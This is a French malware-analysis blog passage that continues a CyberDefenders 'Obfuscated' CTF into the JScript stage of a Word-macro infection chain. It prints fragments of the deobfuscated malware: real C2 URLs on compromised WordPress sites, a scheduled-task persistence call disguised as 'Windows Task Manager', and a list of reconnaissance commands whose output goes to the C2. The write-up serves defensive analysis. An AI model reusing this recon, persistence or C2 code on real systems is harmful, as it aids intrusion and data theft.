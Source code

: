 # Analyse d'une chaîne d'infection

Il y a quelques temps, j'ai résolu le challenge [Obfuscated](https://cyberdefenders.org/blueteam-ctf-challenges/76#nav-questions) de Cyberdefenders. Cependant, le challenge s'arrête juste avant l'analyse du code qui intéragit avec le C2. J'ai donc décidé de poursuivre l'analyse afin de comprendre en détail son fonctionnement et pourquoi pas faire un peu de Threat Intelligence...

Il sera question de mettre en contexte l'analyse en rappellant les éléments essentiels du challenge, décortiquer le code malveillant afin de comprendre ses actions pour enfin analyser la menace dans le but de dégager une tendance.

## Rappel du challenge

En résumé, nous sommes un analyste spécialisé qui a reçu une alerte à propos d'un poste utilisateur au comportement étrange. On nous livre un document Word qui semble être la source de cette alerte.

Le document contient des macros, c'est-à-dire du script embarqué qui est utilisé pour automatiser un certains nombre de tâches. Cependant, les pirates utilisent cette fonctionnalité pour infecter des postes. Afin d'être plus discret et complexifier le travail des analystes, le code est  obfusqué et l'infection est en plusieurs étapes. Le code est du `JScript` qui est un fichier de scripting Microsoft qui permet de lancer des commandes, c'est plutôt proche du `Javascript` avec quelques ajouts en plus, comme la possibilité d'intéragir avec le système hôte.

Le code malveillant contient de la donnée codée en base64 et une implémentation d'un chiffrement type RC4 qui permet de déchiffrer la donnée obtenue après le décodage du base64. Une fois ceci fait, le challenge est terminé, et pourtant il nous reste le code le plus intéressant à explorer.

## Au pays du JScript

### Initialisation

Le code est toujours obfusqué, mais il me semble qu'il l'est moins que lors de l'étape précédente ; quelques variables ont un nom "en clair" :

```javascript
for (var count = 0; count < ayuh; count++) {
        switch (Math.ceil(Math.random() * 3)) {
            case 1:
                name = name + Math.ceil(Math.random() * 8);
                break;
[...]
eV_C("TaskManager", "Windows Task Manager", username, v_FileName, "EzZETcSXyKAdF_e5I2i1", wyKN, false);
```

La première étape initialise certaines variables pour la suite du script :

- stockage des deux URLs des C2 dans une variable, les URLs ne sont pas obfusquées.

- stockage des commandes de reconnaissance du système dans une variable, non obfusquées.

- initialisation d'une variable qui contient le nom du script, elle sera utilisée plus tard.

```javascript
var CKpR = new Array("http://www.saipadiesel124.com/wp-content/plugins/imsanity/tmp.php", "http://www.folk-cantabria.com/wp-content/plugins/wp-statistics/includes/classes/gallery_create_page_field.php");
var tpO8 = "w3LxnRSbJcqf8HrU";
var recon_commands = new Array("systeminfo > ", "net view >> ", "net view /domain >> ", "tasklist /v >> ", "gpresult /z >> ", "netstat -nao >> ", "ipconfig /all >> ", "arp -a >> ", "net share >> ", "net use >> ", "net user >> ", "net user administrator >> ", "net user /domain >> ", "net user administrator /domain >> ", "set  >> ", "dir %systemdrive%\x5cUsers\x5c*.* >> ", "dir %userprofile%\x5cAppData\x5cRoaming\x5cMicrosoft\x5cWindows\x5cRecent\x5c*.* >> ", "dir %userprofile%\x5cDesktop\x5c*.* >> ", "tasklist /fi \x22modules eq wow64.dll\x22  >> ", "tasklist /fi \x22modules ne wow64.dll\x22 >> ", "dir \x22%programfiles(x86)%\x22 >> ", "dir \x22%programfiles%\x22 >> ", "dir %appdata% >>");
var QUjy = new ActiveXObject("Scripting.FileSystemObject");
```